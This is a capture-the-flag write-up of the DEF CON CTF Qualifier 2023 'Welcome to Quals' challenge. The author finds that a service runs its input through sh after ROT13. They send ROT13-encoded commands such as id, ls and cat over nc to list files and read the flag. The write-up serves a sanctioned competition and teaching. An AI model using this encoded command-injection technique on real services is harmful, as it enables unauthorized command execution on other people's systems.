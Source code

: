 # Welcome to Quals

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Find the flag](#find-the-flag)
4. [Conclusion](#conclusion)

## Overview

- 517 solves / 10 points
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

**Host:** welcome-to-quals-vfnva65rlchqk.shellweplayaga.me

**Port:** 10001

## Find the flag

**In this challenge, we can `nc` into the challenge:**
```shell
┌[siunam♥earth]-(~/ctf/DEF-CON-CTF-Qualifier-2023/Intro)-[2023.05.27|09:21:37(HKT)]
└> nc welcome-to-quals-vfnva65rlchqk.shellweplayaga.me 10001
Ticket please: ticket{DeveloperHousing4937n23:OvJ4QRrhtuuyI9jxifoGR2VHYKcqY7qJvYuwtijTLTfm5-71}
Hello challenger, enter your payload below:

```

In here, we can enter a payload...

Ah... What payload??

```shell
┌[siunam♥earth]-(~/ctf/DEF-CON-CTF-Qualifier-2023/Intro)-[2023.05.27|09:23:08(HKT)]
└> nc welcome-to-quals-vfnva65rlchqk.shellweplayaga.me 10001
Ticket please: ticket{DeveloperHousing4937n23:OvJ4QRrhtuuyI9jxifoGR2VHYKcqY7qJvYuwtijTLTfm5-71}
Hello challenger, enter your payload below:
flagplzzzzz
sh: 1: syntcymmmmm: not found
```

Oh! Looks like it's using `sh` to execute our input.

However, **our input is rotated**??

**Let's rotate it back in [CyberChef](https://gchq.github.io/CyberChef/):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/DEF-CON-CTF-Qualifier-2023/images/Pasted%20image%2020230527092450.png)

Yep! ROT13.

**So, in order to execute arbitrary shell commands, we can rotate our payload first:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/DEF-CON-CTF-Qualifier-2023/images/Pasted%20image%2020230527093255.png)

```shell
┌[siunam♥earth]-(~/ctf/DEF-CON-CTF-Qualifier-2023/Intro)-[2023.05.27|09:32:23(HKT)]
└> nc welcome-to-quals-vfnva65rlchqk.shellweplayaga.me 10001
Ticket please: ticket{DeveloperHousing4937n23:OvJ4QRrhtuuyI9jxifoGR2VHYKcqY7qJvYuwtijTLTfm5-71}
Hello challenger, enter your payload below:
jubnzv;vq
user
uid=1000(user) gid=1000(user) groups=1000(user)
```

Nice!

**Let's find the flag!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/DEF-CON-CTF-Qualifier-2023/images/Pasted%20image%2020230527093325.png)

```shell
┌[siunam♥earth]-(~/ctf/DEF-CON-CTF-Qualifier-2023/Intro)-[2023.05.27|09:32:41(HKT)]
└> nc welcome-to-quals-vfnva65rlchqk.shellweplayaga.me 10001
Ticket please: ticket{DeveloperHousing4937n23:OvJ4QRrhtuuyI9jxifoGR2VHYKcqY7qJvYuwtijTLTfm5-71}
Hello challenger, enter your payload below:
yf -ynu /
total 68K
drwxr-xr-x   1 root root 4.0K May 27 01:33 .
drwxr-xr-x   1 root root 4.0K May 27 01:33 ..
-rwxr-xr-x   1 root root    0 May 27 01:33 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 25 14:03 bin -> usr/bin
drwxr-xr-x   2 root root 4.0K Apr 18  2022 boot
drwxr-xr-x   5 root root  340 May 27 01:33 dev
drwxr-xr-x   1 root root 4.0K May 27 01:33 etc
drwxr-xr-x   2 root root 4.0K Apr 18  2022 home
lrwxrwxrwx   1 root root    7 Apr 25 14:03 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 25 14:03 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr 25 14:03 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr 25 14:03 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4.0K Apr 25 14:03 media
drwxr-xr-x   2 root root 4.0K Apr 25 14:03 mnt
drwxr-xr-x   1 root root 4.0K May 26 22:15 opt
dr-xr-xr-x 312 root root    0 May 27 01:33 proc
drwx------   2 root root 4.0K Apr 25 14:06 root
drwxr-xr-x   5 root root 4.0K Apr 25 14:06 run
lrwxrwxrwx   1 root root    8 Apr 25 14:03 sbin -> usr/sbin
drwxr-xr-x   2 root root 4.0K Apr 25 14:03 srv
dr-xr-xr-x  12 root root    0 May 27 01:33 sys
drwxrwxrwt   2 root root 4.0K Apr 25 14:06 tmp
drwxr-xr-x   1 root root 4.0K Apr 25 14:03 usr
drwxr-xr-x   1 root root 4.0K Apr 25 14:06 var
-rw-r--r--   1 1001 1002  116 May 27 01:33 welcome_flag.txt
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/DEF-CON-CTF-Qualifier-2023/images/Pasted%20image%2020230527093353.png)

```shell
┌[siunam♥earth]-(~/ctf/DEF-CON-CTF-Qualifier-2023/Intro)-[2023.05.27|09:33:36(HKT)]
└> nc welcome-to-quals-vfnva65rlchqk.shellweplayaga.me 10001
Ticket please: ticket{DeveloperHousing4937n23:OvJ4QRrhtuuyI9jxifoGR2VHYKcqY7qJvYuwtijTLTfm5-71}
Hello challenger, enter your payload below:
png /jrypbzr_synt.gkg
flag{DeveloperHousing4937n23:xURpjoZI0L99xoYdBTVcN5K8uZ854vBkdRA4V3MXN6p4IcsN4qGfzBHUhfq1Yw_MqPOxtrp9GloRmZSdIJFsUQ}
```

- **Flag: `flag{DeveloperHousing4937n23:xURpjoZI0L99xoYdBTVcN5K8uZ854vBkdRA4V3MXN6p4IcsN4qGfzBHUhfq1Yw_MqPOxtrp9GloRmZSdIJFsUQ}`**

## Conclusion

What we've learned:

1. Executing Shell Commands With ROT13
